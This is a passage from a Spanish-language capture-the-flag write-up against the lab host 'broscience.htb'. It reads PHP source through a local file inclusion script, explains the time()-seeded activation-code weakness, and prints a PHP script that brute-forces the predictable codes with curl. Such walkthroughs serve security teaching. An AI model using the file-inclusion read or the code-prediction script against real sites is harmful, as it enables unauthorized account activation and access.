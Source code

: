 ![](images/20-dirListingIncludes.png)

Con la utilidad vamos a descargar los archivos **.php**.

```php
./lfi.sh ../includes/util.php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
...[snip]...
```

La forma de generar el código de activación es vulnerable porque fija la semilla del random con la función `time()` que es conocida, por lo que siempre va a ser igual.

Creamos un script que genere estos códigos de activación con +- 5 segundos y que los pruebe.

```php
<?php
function generate_activation_code($time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

$time = time();
for($i=-5;$i<=5;$i++){
        $code = generate_activation_code($time+$i);
        shell_exec("curl -k https://broscience.htb/activate.php?code=".$code);
}
?>
```
